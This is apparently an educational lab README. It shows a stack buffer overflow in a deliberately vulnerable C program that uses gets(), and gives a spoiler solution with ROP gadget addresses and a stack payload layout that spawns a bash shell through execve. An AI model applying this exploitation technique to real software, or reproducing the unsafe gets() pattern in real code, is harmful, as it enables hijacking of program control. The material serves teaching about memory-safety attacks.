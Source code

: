 # Stack Overflow using the gets() function
<p align="justify">
The main idea of this proof of concept is to show how something that may seem so harmless can result in taking full controll of the program flow. An insecure function like gets() opens the door to a Stack Buffer Overflow attack.
</p>

## Code and Compilation
Program's code is the following:
```
#include <stdio.h>

void vuln(){
   char buffer[32];
   gets(buffer);
}

int main(){
   puts("Inicio");
   vuln();
   return 0;
}
```
<p align="justify">
In order to make the attack replicable, we have to add certain flags when compiling. We are going to use the cross-compiler that generates full i386 code. Its setup is explained at the <a href ="https://github.com/miguelgonpam/VM-i386-32bit">root's README.md</a>
</p>

We must use the following flags:
```
./gcc-i386 -o program program.c -fomit-frame-pointer -fno-stack-protection -no-pie -static
```
`-no-pie` and `-static` were explained on the <a href ="https://github.com/miguelgonpam/VM-i386-32bit">root's README.md</a> but there are new ones:
- `-fomit-frame-pointer` avoids pushing old frame pointer and creating a new one at the beggining of every function and the same at the end (destroying frame and popping old one).
- `-fno-stack-protector` avoids compiling with the [SSP](https://en.wikipedia.org/wiki/Buffer_overflow_protection) technique, so the overflow can be performed.

## Vulnerability
<p align="justify">
This programs contains a Stack Buffer Overflow (<a href="https://cwe.mitre.org/data/definitions/121.html">CWE-121</a>), that allows to write on the buffer (which is a local variable so it resides on the stack) beyond the expected size. Writing further than the compiler expects, results in the ability of overwriting the return address value and pretty much all the values on the stack that we want.
Then we can choose which addresses we want to replace or overwrite, so we can jump to any instruction we want (or either our own instructions on the stack if NX is off). This technique is called <a href="https://en.wikipedia.org/wiki/Return-to-libc_attack">Ret2Libc</a>.
The ending of pretty much all the functions contains some POP instructions and then the RET. We control which values are allocated on the stack so we also can controll the values in the registers.
</p>

We must use a disassembly tool like `objdump` to see which instructions or addresses could be interesting jumping to. 

Once that we have all the instructions needed, we fill the stack with their addresses, and wait for the fun to begin.

## Objective
Our goal is to perform a syscall. We are going to execute an execve that is going to give us a shell. 
Before that, we need to load onto the EAX register the execve syscall number (11). And then we have to load on the rest of registers the arguments to perform such syscall.
According to `man 2 execve` it expects 3 arguments:
```
 int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```
At first it is a little difficult to understand:
- First argument must be a pointer to a String, cointaining the pathname of the file to execute.
- Second argument must be a pointer to string pointers array, containing the arguments.
- Third argument must be a pointer to string pointers, containing the environment variables.

An useful execve would be (replacing `/dev/pts/0` with the result of executing `tty` command on our terminal):
```
execve("/bin/bash", ["/bin/bash", "-c", " < /dev/pts/0"], [])
```





## Exploitation
<details>
  <summary>Click here to see the solution</summary>



  We have found the following utils. (Addresses can change if the program is compiled again)

  A "POP eax" can be difficult to find, so we are going to use this. Moves into the EAX the next value at the top of the stack value.
```
 80489a1:       8b 44 24 04             mov    eax,DWORD PTR [esp+0x4]
 80489a5:       c3                      ret
```
  Then, we have to load the rest of registers. We are going to use this:
```
 8048d8f:       8b 54 24 24             mov    edx,DWORD PTR [esp+0x24]
 8048d93:       8b 4c 24 28             mov    ecx,DWORD PTR [esp+0x28]
 8048d97:       8d 74 24 08             lea    esi,[esp+0x8]
 8048d9b:       8b 5c 24 20             mov    ebx,DWORD PTR [esp+0x20]
 8048d9f:       8b 7c 24 2c             mov    edi,DWORD PTR [esp+0x2c]
 8048da3:       65 ff 15 10 00 00 00    call   DWORD PTR gs:0x10
```
This loads all the registers with values from the stack. We control the stack so we can get the registers to have the values we want. Even though ESI and EDI are affected, we are interested only in EBX, ECX and EDX.
Also, `CALL gs:0x10` calls to `INT 0x80`, which performs the syscall. We have the full set now.

Now that we have the utils, we must execute the program with the emulator (use interface mode) and see where the buffer begins (If the string typed begins with "AAAA", it will result on `0x41414141` on the stack), and that is the buffer start.
Buffer grows to greater addresses, so we must spot where the return address is. They usualy are `0x804xxxxx`. Thats where our first util must be, so create a payload that has padding until it reaches that address, and then just chain the utils.

The payload should make the stack look something like this:
```
LOWER ADDRESSES

0x6e69622f #buffer start "/bin"
0x7361622f #             "/bas"
0x632d0068 #             "h\0-c"
0x69622f00 #             "\0/bin"
0x61622f6e #             "n/ba"
0x3c206873 #             "sh <"
0x65642f20 #             " /de"
0x74702f76 #             "v/pt"
0x00302f73 #             "s/0\0"
0x00000000 # padding
0xa1890408 # mov    eax,DWORD PTR [esp+0x4]; ret  (overwritten return address)
0x8f8d0408 # mov    edx,DWORD PTR [esp+0x24];......; ret
0x0b000000 # 11 (this value ends up in EAX so syscall is execve)
0x00000000 #                              (esp +0x4)
0x00000000 # value to mov into esi        (esp +0x8)
0xe0f0efff # execve argv[0]               (esp +0xc)
0xeaf0efff # argv[1]                      (esp +0x10)
0xedf0efff #                              (esp +0x14)
0x00000000 #                              (esp +0x18)
0x00000000 #                              (esp +0x1c)
0xe0f0efff # value to mov into ebx        (esp +0x20)
0x00000000 # value to mov into edx        (esp +0x24)
0x20f1efff # value to mov into ecx        (esp +0x28)
0x00000000 # value to mov into edi        (esp +0x2c)

HIGHER ADDRESSES
```

Full exploit available at `payload.py`

</details>

